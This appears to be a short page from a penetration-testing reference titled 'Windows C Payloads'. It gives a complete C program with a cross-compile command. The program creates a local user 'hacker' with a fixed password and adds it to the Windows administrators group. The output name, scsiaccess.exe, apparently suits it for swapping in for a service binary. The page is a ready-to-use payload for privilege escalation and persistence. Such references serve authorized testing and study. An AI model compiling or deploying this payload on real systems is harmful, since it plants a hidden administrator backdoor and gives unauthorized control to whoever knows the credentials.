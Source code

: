 # Windows C Payloads

{{#include ../../banners/hacktricks-training.md}}

## Add user

```c
// i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
    int i;
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```

{{#include ../../banners/hacktricks-training.md}}



